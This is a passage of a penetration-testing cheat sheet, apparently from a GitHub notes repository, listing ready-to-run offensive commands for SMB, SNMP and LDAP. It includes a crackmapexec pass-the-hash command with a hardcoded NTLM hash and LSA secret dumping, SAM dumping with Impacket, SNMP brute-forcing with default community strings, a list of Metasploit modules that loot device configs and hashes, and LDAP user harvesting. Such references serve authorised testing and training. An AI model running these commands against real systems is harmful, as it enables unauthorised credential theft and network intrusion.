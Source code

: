 ```bash
crackmapexec smb 10.55.100.0/23 -u LA-ITAdmin -H 573f6308519b3df23d9ae2137f549b15 --local --lsa

# Impacket
python3 samdump.py SMB 172.21.0.0

# Check for systems with SMB Signing not enabled
python3 RunFinger.py -i 172.21.0.0/24
```

## Port 161/162 UDP - SNMP

```bash
nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-netstat,snmp-processes 10.11.1.111
nmap 10.11.1.111 -Pn -sU -p 161 --script=snmp-brute,snmp-hh3c-logins,snmp-info,snmp-interfaces,snmp-ios-config,snmp-netstat,snmp-processes,snmp-sysdescr,snmp-win32-services,snmp-win32-shares,snmp-win32-software,snmp-win32-users
snmp-check 10.11.1.111 -c public|private|community
snmpwalk -c public -v1 ipaddress 1
snmpwalk -c private -v1 ipaddress 1
snmpwalk -c manager -v1 ipaddress 1
onesixtyone -c /usr/share/doc/onesixtyone/dict.txt 172.21.0.X

# Impacket
python3 samdump.py SNMP 172.21.0.0 

# MSF aux modules
 auxiliary/scanner/misc/oki_scanner                                    
 auxiliary/scanner/snmp/aix_version                                   
 auxiliary/scanner/snmp/arris_dg950                                   
 auxiliary/scanner/snmp/brocade_enumhash                               
 auxiliary/scanner/snmp/cisco_config_tftp                               
 auxiliary/scanner/snmp/cisco_upload_file                              
 auxiliary/scanner/snmp/cnpilot_r_snmp_loot                             
 auxiliary/scanner/snmp/epmp1000_snmp_loot                             
 auxiliary/scanner/snmp/netopia_enum                                    
 auxiliary/scanner/snmp/sbg6580_enum                                 
 auxiliary/scanner/snmp/snmp_enum                                 
 auxiliary/scanner/snmp/snmp_enum_hp_laserjet                           
 auxiliary/scanner/snmp/snmp_enumshares                                
 auxiliary/scanner/snmp/snmp_enumusers                                 
 auxiliary/scanner/snmp/snmp_login
```

## Port 389,636 - LDAP

Check [AD](../post-exploitation/windows/ad/) section and this [LDAP](https://malicious.link/post/2022/ldapsearch-reference/) guide

```bash
jxplorer
ldapsearch -h 10.11.1.111 -p 389 -x -b "dc=mywebsite,dc=com"
python3 windapsearch.py --dc-ip 10.10.10.182 --users --full > windapsearch_users.txt
cat windapsearch_users.txt | grep sAMAccountName | cut -d " " -f 2 > users.txt
# Check # https://github.com/ropnop/go-windapsearch
```
